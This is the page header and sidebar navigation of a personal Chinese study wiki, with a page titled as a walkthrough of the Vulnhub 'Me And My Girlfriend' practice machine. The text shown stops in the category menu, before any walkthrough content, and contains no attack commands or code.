








<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    
    <title>【Vulnhub】Me And My Girlfriend--Workthourgh | kn0sky&#39;wiki</title>
    
    
        <meta name="keywords" content="kn0sky">
    
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
    <meta name="description" content="【Vulnhub】Me And My Girlfriend:1–Workthourgh 文章作者：kn0sky 作者博客：kn0sky.com  本来想下载新的靶机去玩的，无奈下载速度太慢，无意间发现去年下载的没打过的靶机，是个简单难度的，刚好挺久没练习了，有点生疏了拿来练练手，耗时：2小时 靶机信息1234567891011Date release: 13 Dec 2019Author: TW1">
<meta property="og:type" content="article">
<meta property="og:title" content="【Vulnhub】Me And My Girlfriend--Workthourgh">
<meta property="og:url" content="http://kn0sky.com/wiki/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/vulnhub/5-MeAndMyGirlfriend/index.html">
<meta property="og:site_name" content="kn0sky&#39;wiki">
<meta property="og:description" content="【Vulnhub】Me And My Girlfriend:1–Workthourgh 文章作者：kn0sky 作者博客：kn0sky.com  本来想下载新的靶机去玩的，无奈下载速度太慢，无意间发现去年下载的没打过的靶机，是个简单难度的，刚好挺久没练习了，有点生疏了拿来练练手，耗时：2小时 靶机信息1234567891011Date release: 13 Dec 2019Author: TW1">
<meta property="og:locale" content="en_US">
<meta property="og:image" content="http://kn0sky.com/wiki/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/vulnhub/5-MeAndMyGirlfriend/image-20200520163545755.png">
<meta property="og:image" content="http://kn0sky.com/wiki/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/vulnhub/5-MeAndMyGirlfriend/image-20200520164618303.png">
<meta property="og:image" content="http://kn0sky.com/wiki/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/vulnhub/5-MeAndMyGirlfriend/image-20200520164704590.png">
<meta property="og:image" content="http://kn0sky.com/wiki/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/vulnhub/5-MeAndMyGirlfriend/image-20200520164822736.png">
<meta property="og:image" content="http://kn0sky.com/wiki/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/vulnhub/5-MeAndMyGirlfriend/image-20200520175517452.png">
<meta property="og:image" content="http://kn0sky.com/wiki/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/vulnhub/5-MeAndMyGirlfriend/image-20200520175705133.png">
<meta property="og:image" content="http://kn0sky.com/wiki/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/vulnhub/5-MeAndMyGirlfriend/image-20200520175929238.png">
<meta property="og:image" content="http://kn0sky.com/wiki/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/vulnhub/5-MeAndMyGirlfriend/image-20200520180051559.png">
<meta property="og:image" content="http://kn0sky.com/wiki/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/vulnhub/5-MeAndMyGirlfriend/image-20200520180431376.png">
<meta property="og:image" content="http://kn0sky.com/wiki/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/vulnhub/5-MeAndMyGirlfriend/image-20200520182436014.png">
<meta property="article:published_time" content="2020-05-20T08:06:19.000Z">
<meta property="article:modified_time" content="2020-05-20T12:09:22.000Z">
<meta property="article:author" content="kn0sky">
<meta property="article:tag" content="kn0sky">
<meta name="twitter:card" content="summary">
<meta name="twitter:image" content="http://kn0sky.com/wiki/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/vulnhub/5-MeAndMyGirlfriend/image-20200520163545755.png">
    

    
        <link rel="alternate" href="/atom.xml" title="kn0sky&#39;wiki" type="application/atom+xml">
    

    
        <link rel="icon" href="/favicon.ico">
    

    
<link rel="stylesheet" href="/libs/font-awesome/css/font-awesome.min.css">

    
<link rel="stylesheet" href="/libs/open-sans/styles.css">

    
<link rel="stylesheet" href="/libs/source-code-pro/styles.css">


    
<link rel="stylesheet" href="/css/style.css">

    
<script src="/libs/jquery/2.1.3/jquery.min.js"></script>

    
<script src="/libs/jquery/plugins/cookie/1.4.1/jquery.cookie.js"></script>

    
    
        
<link rel="stylesheet" href="/libs/lightgallery/css/lightgallery.min.css">

    
    
        
<link rel="stylesheet" href="/libs/justified-gallery/justifiedGallery.min.css">

    
    
    
    


    
        <script async src="//busuanzi.ibruce.info/busuanzi/2.3/busuanzi.pure.mini.js"></script>
    
<meta name="generator" content="Hexo 4.2.0"></head>
</html>
<body>
    <div id="container">
        <header id="header">
    <div id="header-main" class="header-inner">
        <div class="outer">
            <a href="/" id="logo">
                <i class="logo"></i>
                <span class="site-title">kn0sky&#39;wiki</span>
            </a>
            <nav id="main-nav">
                
                    <a class="main-nav-link" href="/">首页</a>
                
                    <a class="main-nav-link" href="/archives">归档</a>
                
                    <a class="main-nav-link" href="/categories">分类</a>
                
                    <a class="main-nav-link" href="/tags">标签</a>
                
                    <a class="main-nav-link" href="/about">关于</a>
                
            </nav>
            
            <div id="search-form-wrap">

    <form class="search-form">
        <input type="text" class="ins-search-input search-form-input" placeholder="Search">
        <button type="submit" class="search-form-submit"></button>
    </form>
    <div class="ins-search">
    <div class="ins-search-mask"></div>
    <div class="ins-search-container">
        <div class="ins-input-wrapper">
            <input type="text" class="ins-search-input" placeholder="Type something...">
            <span class="ins-close ins-selectable"><i class="fa fa-times-circle"></i></span>
        </div>
        <div class="ins-section-wrapper">
            <div class="ins-section-container"></div>
        </div>
    </div>
</div>
<script>
(function (window) {
    var INSIGHT_CONFIG = {
        TRANSLATION: {
            POSTS: 'Posts',
            PAGES: 'Pages',
            CATEGORIES: 'Categories',
            TAGS: 'Tags',
            UNTITLED: '(Untitled)',
        },
        ROOT_URL: '/',
        CONTENT_URL: '/content.json',
    };
    window.INSIGHT_CONFIG = INSIGHT_CONFIG;
})(window);
</script>

<script src="/js/insight.js"></script>


</div>
        </div>
    </div>
    <div id="main-nav-mobile" class="header-sub header-inner">
        <table class="menu outer">
            <tr>
                
                    <td><a class="main-nav-link" href="/">首页</a></td>
                
                    <td><a class="main-nav-link" href="/archives">归档</a></td>
                
                    <td><a class="main-nav-link" href="/categories">分类</a></td>
                
                    <td><a class="main-nav-link" href="/tags">标签</a></td>
                
                    <td><a class="main-nav-link" href="/about">关于</a></td>
                
                <td>
                    
    <div class="search-form">
        <input type="text" class="ins-search-input search-form-input" placeholder="Search">
    </div>

                </td>
            </tr>
        </table>
    </div>
</header>

        <div class="outer">
            
            
                <aside id="sidebar">
   
        
    <div class="widget-wrap" id="categories">
        <h3 class="widget-title">
            <span>categories</span>
            &nbsp;
            <a id="allExpand" href="#">
                <i class="fa fa-angle-double-down fa-2x"></i>
            </a>
        </h3>
        
        
        
         <ul class="unstyled" id="tree"> 
                    <li class="directory">
                        <a href="#" data-role="directory">
                            <i class="fa fa-folder"></i>
                            &nbsp;
                            备忘笔记
                        </a>
                         <ul class="unstyled" id="tree">  <li class="file"><a href="/wiki/%E5%A4%87%E5%BF%98%E7%AC%94%E8%AE%B0/%E5%B8%B8%E7%94%A8%E5%B7%A5%E5%85%B7%E6%B1%87%E6%80%BB/">常用工具备忘录</a></li>  </ul> 
                    </li> 
                    
                    <li class="directory">
                        <a href="#" data-role="directory">
                            <i class="fa fa-folder"></i>
                            &nbsp;
                            学习笔记
                        </a>
                         <ul class="unstyled" id="tree"> 
                    <li class="directory">
                        <a href="#" data-role="directory">
                            <i class="fa fa-folder"></i>
                            &nbsp;
                            51单片机学习笔记
                        </a>
                         <ul class="unstyled" id="tree">  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/51%E5%8D%95%E7%89%87%E6%9C%BA%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/51%E5%8D%95%E7%89%87%E6%9C%BA%E5%85%A5%E9%97%A801--LED%E6%B5%81%E6%B0%B4%E7%81%AF/">51单片机入门01--LED流水灯</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/51%E5%8D%95%E7%89%87%E6%9C%BA%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/51%E5%8D%95%E7%89%87%E6%9C%BA%E5%85%A5%E9%97%A802--%E6%95%B0%E7%A0%81%E7%AE%A1/">51单片机入门02--数码管</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/51%E5%8D%95%E7%89%87%E6%9C%BA%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/51%E5%8D%95%E7%89%87%E6%9C%BA%E5%85%A5%E9%97%A803--%E6%8C%89%E9%94%AE/">51单片机入门03--按键</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/51%E5%8D%95%E7%89%87%E6%9C%BA%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/51%E5%8D%95%E7%89%87%E6%9C%BA%E5%85%A5%E9%97%A804--%E5%AE%9A%E6%97%B6&%E8%AE%A1%E6%95%B0%E5%99%A8/">51单片机入门04--定时&计数器</a></li>  </ul> 
                    </li> 
                    
                    <li class="directory">
                        <a href="#" data-role="directory">
                            <i class="fa fa-folder"></i>
                            &nbsp;
                            C语言学习笔记
                        </a>
                         <ul class="unstyled" id="tree">  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/C%E8%AF%AD%E8%A8%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/C%E8%AF%AD%E8%A8%80%E5%9F%BA%E7%A1%8001--%E5%88%9D%E8%A7%81C%E8%AF%AD%E8%A8%80/">C语言基础01--初见C语言</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/C%E8%AF%AD%E8%A8%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/C%E8%AF%AD%E8%A8%80%E5%9F%BA%E7%A1%8002--%E6%9D%A1%E4%BB%B6%E8%AF%AD%E5%8F%A5/">C语言基础02--条件语句</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/C%E8%AF%AD%E8%A8%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/C%E8%AF%AD%E8%A8%80%E5%9F%BA%E7%A1%8003--%E5%AE%8F&%E5%87%BD%E6%95%B0&%E6%95%B0%E7%BB%84/">C语言基础03--宏&函数&数组</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/C%E8%AF%AD%E8%A8%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/C%E8%AF%AD%E8%A8%80%E5%9F%BA%E7%A1%8004--%E6%8C%87%E9%92%88/">C语言基础04--指针</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/C%E8%AF%AD%E8%A8%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/C%E8%AF%AD%E8%A8%80%E5%9F%BA%E7%A1%8005--%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%93%8D%E4%BD%9C/">C语言基础05--字符串操作</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/C%E8%AF%AD%E8%A8%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/C%E8%AF%AD%E8%A8%80%E5%9F%BA%E7%A1%8006--%E6%96%87%E4%BB%B6%E6%93%8D%E4%BD%9C/">C语言基础06--文件操作</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/C%E8%AF%AD%E8%A8%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/C%E8%AF%AD%E8%A8%80%E5%9F%BA%E7%A1%8007--%E7%BB%93%E6%9E%84%E4%BD%93/">C语言基础07--结构体</a></li>  </ul> 
                    </li> 
                    
                    <li class="directory">
                        <a href="#" data-role="directory">
                            <i class="fa fa-folder"></i>
                            &nbsp;
                            前端入门学习笔记
                        </a>
                         <ul class="unstyled" id="tree">  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E5%89%8D%E7%AB%AF%E5%85%A5%E9%97%A8%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E5%89%8D%E7%AB%AF%E5%85%A5%E9%97%A801--HTML&CSS%E5%9F%BA%E7%A1%80/">前端入门01--HTML和CSS基础</a></li>  </ul> 
                    </li> 
                    
                    <li class="directory">
                        <a href="#" data-role="directory">
                            <i class="fa fa-folder"></i>
                            &nbsp;
                            半导体物理学习笔记
                        </a>
                         <ul class="unstyled" id="tree">  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E5%8D%8A%E5%AF%BC%E4%BD%93%E7%89%A9%E7%90%86%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E5%8D%8A%E5%AF%BC%E4%BD%93%E7%89%A9%E7%90%8601--%E8%83%BD%E5%B8%A6%E7%90%86%E8%AE%BA/">半导体物理01--能带理论</a></li>  </ul> 
                    </li> 
                    
                    <li class="directory">
                        <a href="#" data-role="directory">
                            <i class="fa fa-folder"></i>
                            &nbsp;
                            汇编基础学习笔记
                        </a>
                         <ul class="unstyled" id="tree">  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%8001--%E5%9F%BA%E7%A1%80%E6%A6%82%E5%BF%B5/">汇编基础01：基础概念</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%8002--%E7%AC%AC%E4%B8%80%E4%B8%AA%E7%A8%8B%E5%BA%8F/">汇编基础02：第一个程序</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%8003--%E6%95%B0%E5%AD%A6%E8%BF%90%E7%AE%97&%E9%80%BB%E8%BE%91%E8%BF%90%E7%AE%97/">汇编基础03：数学运算&逻辑运算</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%8004--%E5%BE%AA%E7%8E%AF/">汇编基础04：循环</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%8005--%E5%A0%86%E6%A0%88/">汇编基础05：堆栈</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%8006--%E6%95%B0%E6%8D%AE%E4%BC%A0%E9%80%81%E6%8C%87%E4%BB%A4/">汇编基础06：数据传送指令</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%8007--%E6%AF%94%E8%BE%83%E6%8C%87%E4%BB%A4/">汇编基础07：比较指令</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%8008--JCC%E6%8C%87%E4%BB%A4/">汇编基础08： JCC 转移指令</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%8009--%E4%BC%A0%E9%80%81%E6%8C%87%E4%BB%A4/">汇编基础09--传送指令</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%8010--%E4%BD%BF%E7%94%A8%E5%87%BD%E6%95%B0/">汇编基础10--使用函数</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%8012--%E6%95%B0%E7%BB%84%E5%92%8C%E7%BB%93%E6%9E%84%E4%BD%93/">汇编基础12--数组和结构体</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%8011--win32%E6%B1%87%E7%BC%96/">汇编基础11--win32汇编</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E4%BD%9C%E4%B8%9A--%E7%94%B5%E8%AF%9D%E7%B0%BF/">汇编作业--电话簿</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E6%B1%87%E7%BC%96%E5%9F%BA%E7%A1%8013--%E9%97%B4%E6%8E%A5%E5%AF%BB%E5%9D%80/">汇编基础13--间接寻址</a></li>  </ul> 
                    </li> 
                    
                    <li class="directory">
                        <a href="#" data-role="directory">
                            <i class="fa fa-folder"></i>
                            &nbsp;
                            王道计组书学习笔记
                        </a>
                         <ul class="unstyled" id="tree">  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E7%8E%8B%E9%81%93%E8%AE%A1%E7%BB%84%E4%B9%A6%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E7%8E%8B%E9%81%93%E8%AE%A1%E7%BB%84%E7%AC%94%E8%AE%B001--%E8%AE%A1%E7%AE%97%E6%9C%BA%E7%B3%BB%E7%BB%9F%E6%A6%82%E8%BF%B0/">王道计组笔记01--计算机系统概述</a></li>  </ul> 
                    </li> 
                    
                    <li class="directory">
                        <a href="#" data-role="directory">
                            <i class="fa fa-folder"></i>
                            &nbsp;
                            逆向入门学习笔记
                        </a>
                         <ul class="unstyled" id="tree">  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E9%80%86%E5%90%91%E5%85%A5%E9%97%A8%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E9%80%86%E5%90%91%E5%9F%BA%E7%A1%8001--%E5%88%9D%E8%A7%81%E9%80%86%E5%90%91/">逆向基础01--初见逆向</a></li>  <li class="file"><a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E9%80%86%E5%90%91%E5%85%A5%E9%97%A8%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E9%80%86%E5%90%91%E5%9F%BA%E7%A1%8002--%E5%88%9D%E8%AF%95%E7%A0%B4%E8%A7%A3/">逆向基础02--初试破解</a></li>  </ul> 
                    </li> 
                     </ul> 
                    </li> 
                    
                    <li class="directory">
                        <a href="#" data-role="directory">
                            <i class="fa fa-folder"></i>
                            &nbsp;
                            折腾笔记
                        </a>
                         <ul class="unstyled" id="tree"> 
                    <li class="directory">
                        <a href="#" data-role="directory">
                            <i class="fa fa-folder"></i>
                            &nbsp;
                            博客搭建
                        </a>
                         <ul class="unstyled" id="tree">  <li class="file"><a href="/wiki/%E6%8A%98%E8%85%BE%E7%AC%94%E8%AE%B0/%E5%8D%9A%E5%AE%A2%E6%90%AD%E5%BB%BA/%E4%BD%BF%E7%94%A8hexo%E6%90%AD%E5%BB%BAwiki/">使用hexo搭建个人wiki</a></li>  <li class="file"><a href="/wiki/%E6%8A%98%E8%85%BE%E7%AC%94%E8%AE%B0/%E5%8D%9A%E5%AE%A2%E6%90%AD%E5%BB%BA/%E5%80%9F%E5%8A%A9%E4%BA%91%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%AE%9E%E7%8E%B0hexo%E5%85%A8%E8%87%AA%E5%8A%A8%E9%83%A8%E7%BD%B2/">借助云服务器实现hexo全自动部署</a></li>  <li class="file"><a href="/wiki/%E6%8A%98%E8%85%BE%E7%AC%94%E8%AE%B0/%E5%8D%9A%E5%AE%A2%E6%90%AD%E5%BB%BA/hexo%E8%81%94%E5%8A%A8Typora/">hexo联动Typora</a></li>  </ul> 
                    </li> 
                    
                    <li class="directory">
                        <a href="#" data-role="directory">
                            <i class="fa fa-folder"></i>
                            &nbsp;
                            手机连接电脑
                        </a>
                         <ul class="unstyled" id="tree">  <li class="file"><a href="/wiki/%E6%8A%98%E8%85%BE%E7%AC%94%E8%AE%B0/%E6%89%8B%E6%9C%BA%E8%BF%9E%E6%8E%A5%E7%94%B5%E8%84%91/%E4%BD%BF%E7%94%A8%E6%89%8B%E6%9C%BA%E6%89%A9%E5%B1%95%E7%94%B5%E8%84%91%E5%B1%8F%E5%B9%95/">使用手机扩展电脑屏幕</a></li>  <li class="file"><a href="/wiki/%E6%8A%98%E8%85%BE%E7%AC%94%E8%AE%B0/%E6%89%8B%E6%9C%BA%E8%BF%9E%E6%8E%A5%E7%94%B5%E8%84%91/%E4%BD%BF%E7%94%A8%E7%94%B5%E8%84%91%E6%8E%A7%E5%88%B6%E6%89%8B%E6%9C%BA/">使用电脑控制手机</a></li>  </ul> 
                    </li> 
                     </ul> 
                    </li> 
                    
                    <li class="directory">
                        <a href="#" data-role="directory">
                            <i class="fa fa-folder"></i>
                            &nbsp;
                            概念笔记
                        </a>
                         <ul class="unstyled" id="tree">  <li class="file"><a href="/wiki/%E6%A6%82%E5%BF%B5%E7%AC%94%E8%AE%B0/%E5%AF%84%E5%AD%98%E5%99%A8%E9%80%BB%E8%BE%91%E7%BB%93%E6%9E%84/">寄存器逻辑结构</a></li>  <li class="file"><a href="/wiki/%E6%A6%82%E5%BF%B5%E7%AC%94%E8%AE%B0/%E5%86%85%E5%AD%98/">内存</a></li>  </ul> 
                    </li> 
                    
                    <li class="directory open">
                        <a href="#" data-role="directory">
                            <i class="fa fa-folder-open"></i>
                            &nbsp;
                            靶机笔记
                        </a>
                         <ul class="unstyled" id="tree"> 
                    <li class="directory open">
                        <a href="#" data-role="directory">
                            <i class="fa fa-folder-open"></i>
                            &nbsp;
                            vulnhub
                        </a>
